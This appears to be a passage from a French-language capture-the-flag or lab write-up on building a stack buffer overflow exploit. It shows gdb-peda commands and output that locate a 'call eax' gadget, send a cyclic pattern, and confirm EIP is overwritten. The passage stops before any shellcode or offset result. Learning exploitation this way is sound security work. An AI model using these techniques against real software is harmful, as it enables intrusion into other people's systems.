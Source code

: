 ### B: Creation de l'exploit

* Il nous faut donc: l'adresse de l'instruction frame_dummy+31, à partir de combien de caractères (offset) on va réécrire sur l'EIP, et un shellcode

```shell
  # Addresse frame_dummy+31: 0x080484cf
  gdb-peda$ pdisas frame_dummy
    [...]
    0x080484cf <+31>:	call   eax
    [...]

  # On crée un pattern avec peda (générateur de patterns aussi trouvable sur internet)
  gdb-peda$ pattern create 200 pattern2
    Writing pattern of 200 chars to filename "pattern2"
  
  # On le cat pour le copier
  gdb-peda$ cat pattern2
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

  # On lance la fonction et on colle le pattern
  gdb-peda$ run
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

    # BIM segfault
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    [...]
    # Ici la portion du pattern qui a écrit sur l'EIP
    EIP: 0x41414a41 ('AJAA')
    [...]
    [-------------------------------------code-------------------------------------]
    # Ici la confirmation que le segfault est dû à une mauvaise addresse
    Invalid $PC address: 0x41414a41
    [------------------------------------stack-------------------------------------]
    # Ici la stack en partant des addresses basses. On voit notre string écrite
    0000| 0xbffff710 ("fAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0004| 0xbffff714 ("AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0008| 0xbffff718 ("AgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0012| 0xbffff71c ("6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0016| 0xbffff720 ("AAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0020| 0xbffff724 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0024| 0xbffff728 ("MAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0028| 0xbffff72c ("AA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    [------------------------------------------------------------------------------]
    Stopped reason: SIGSEGV
    0x41414a41 in ?? ()
  
  # Plutôt que de compter à la main combien de chars il faut imprimer avant l'addresse de call eax on va le faire calculer par peda
  gdb-peda$ pattern search
    [...]
```
